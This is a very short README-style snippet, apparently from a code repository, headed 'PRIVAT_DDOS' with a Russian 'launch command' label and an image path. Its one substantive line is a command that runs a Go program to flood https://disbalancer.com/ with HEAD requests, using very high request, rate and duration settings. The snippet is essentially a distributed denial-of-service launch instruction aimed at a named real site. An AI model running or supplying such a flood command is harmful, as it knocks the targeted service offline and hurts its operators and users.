 # PRIVAT_DDOS
Команда для запуска
go run govno.go -u https://disbalancer.com/ -m HEAD -n 250000 -t 10000s -r 1000000
